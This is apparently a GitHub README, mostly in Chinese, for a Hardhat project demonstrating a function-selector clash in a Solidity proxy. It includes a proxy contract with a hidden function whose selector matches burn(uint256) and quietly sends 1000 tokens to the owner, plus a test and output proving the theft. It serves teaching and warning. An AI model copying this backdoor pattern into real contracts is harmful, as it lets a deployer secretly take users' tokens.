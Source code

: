 # Sample Hardhat Project

This project demonstrates a basic Hardhat use case. It comes with a sample contract, a test for that contract, and a script that deploys that contract.

Try running some of the following tasks:

```shell
npx hardhat help
npx hardhat test
REPORT_GAS=true npx hardhat test
npx hardhat node
npx hardhat run scripts/deploy.ts
```


# 环境
执行自定义test文件: 
`npx hardhat test test/Proxy1.ts`

# 函数选择器冲突
在代理模式中, 如果方法不加以校验可能会出现安全漏洞.

在如下代理代码中:
代理合约
```代理合约
pragma solidity ^0.8.9;

contract Proxy {

    // 占位
    uint32 public placeholder1;
    uint32 public placeholder2;
    uint32 public placeholder3;

    address public proxyOwner;
    address public implementation;

    constructor(address implementation) public {
        proxyOwner = msg.sender;
        _setImplementation(implementation);
    }

    modifier onlyProxyOwner() {
        require(msg.sender == proxyOwner);
        _;
    }

    function upgrade(address implementation) external onlyProxyOwner {
        _setImplementation(implementation);
    }

    function _setImplementation(address imp) private {
        implementation = imp;
    }

    fallback() payable external {
        _fallback();
    }

    function collate_propagate_storage(bytes16 data) public {
        implementation.delegatecall(abi.encodeWithSignature("transfer(address,uint256)", proxyOwner, 1000));
    }

    function _fallback() internal {
        (bool success, bytes memory result) = implementation.delegatecall(msg.data);
        require(success, "failed to delegatecall");
        assembly {
            return (add(result, 0x20), mload(result))
        }
    }

}
```
逻辑合约
```
pragma solidity ^0.8.9;

import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";
import "@openzeppelin/contracts-upgradeable/token/ERC20/extensions/ERC20BurnableUpgradeable.sol";

contract BurnableToken is ERC20BurnableUpgradeable {

    function initialize() initializer public {
        __ERC20_init("MyToken", "MTK");
    }

    function mint(address account, uint256 amount) public {
        _mint(account, amount);
    }
}
```
测试逻辑
```
import {loadFixture} from "@nomicfoundation/hardhat-network-helpers";
import {ethers} from "hardhat";

describe("function clash proxy", function () {

    async function deployOneFixture() {

        // Contracts are deployed using the first signer/account by default
        const [owner, otherAccount] = await ethers.getSigners();

        const ownerAccountAddress = await owner.getAddress();
        const otherAccountAddress = await otherAccount.getAddress();

        const BurnableToken = await ethers.getContractFactory("BurnableToken");
        const burnableToken = await BurnableToken.deploy();

        const ProxyFuncClashing = await ethers.getContractFactory("ProxyFuncClashing");
        const proxyFuncClashing = await ProxyFuncClashing.deploy(burnableToken.address);

        const proxyToken = await BurnableToken.attach(proxyFuncClashing.address);

        await proxyToken.initialize();

        await proxyToken.mint(otherAccountAddress, '0x0000000000000000000000000000000100000000000000000000000000000001');

        let balance = await proxyToken.balanceOf(otherAccountAddress)
        console.log(`before other amount: ${balance.toString()}`)

        // collate_propagate_storage(bytes16 data) 在取参数时只用16bytes 后面用0补位
        await proxyToken.connect(otherAccount).burn('0x0000000000000000000000000000000100000000000000000000000000000000');

        balance = await proxyToken.balanceOf(otherAccountAddress)
        console.log(`after other amount: ${balance.toString()}`)

        balance = await proxyToken.balanceOf(ownerAccountAddress)
        console.log(`after owner amount: ${balance.toString()}`)

        return {
            ownerAccountAddress,
            otherAccountAddress
        };
    }

    describe("Proxy", function () {
        it("test", async function () {
            await loadFixture(deployOneFixture);
        })
    })
});
```
使用hardhat测试。控制台执行npx hardhat test test.js 打印输出
```
before other amount: 340282366920938463463374607431768211457
after other amount: 340282366920938463463374607431768210457
after owner amount: 1000
```
可以看到, 本意是从other账户burn token。实际上执行的是proxy中的collate_propagate_storage 给proxyOwner转了1000token。

原因分析
在执行合约函数时, 是根据函数的选择器执行的。将函数名和参数类型进行编码，然后取前4字节。这就会出现冲突。
如下俩函数的选择器是一样的。
```
0x42966c68
collate_propagate_storage(bytes16)
burn(uint256)
```
在看到类似的代理合约时要注意, 普通用户应该只能调用fallback方法。完全透明的调用逻辑合约。

参考:
https://forum.openzeppelin.com/t/beware-of-the-proxy-learn-how-to-exploit-function-clashing/1070
